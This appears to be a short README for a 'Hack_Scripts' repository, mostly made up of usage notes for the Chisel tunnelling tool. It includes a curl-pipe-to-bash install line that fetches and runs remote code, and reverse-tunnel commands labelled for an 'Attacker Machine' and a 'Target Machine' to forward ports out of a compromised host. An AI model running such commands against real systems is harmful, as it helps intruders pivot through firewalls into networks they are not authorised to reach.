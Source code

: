 # Hack_Scripts

The Scripts for Hacking and general ,
Includes python2  and Java
  --> Java
  --> Python
  --> Php

# CHISEL

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

See the latest release or download and install it now with curl https://i.jpillora.com/chisel! | bash

# Usage

$ chisel --help
  Usage: chisel [command] [--help]
  
  Version: X.Y.Z
  
  Commands:
    server - runs chisel in server mode
    
    client - runs chisel in client mode
    
  Read more:
    https://github.com/jpillora/chisel
    
 chisel server -p 9000 --reverse -v   >> Run in Attacker Machine\n
 
 chisel client <attacker ip:port{differnt port}> R:<attacker ip:port{different port1}>:<localhost:port{running port, need to be forwarded}>   >> Run in Target Machine
 

# 
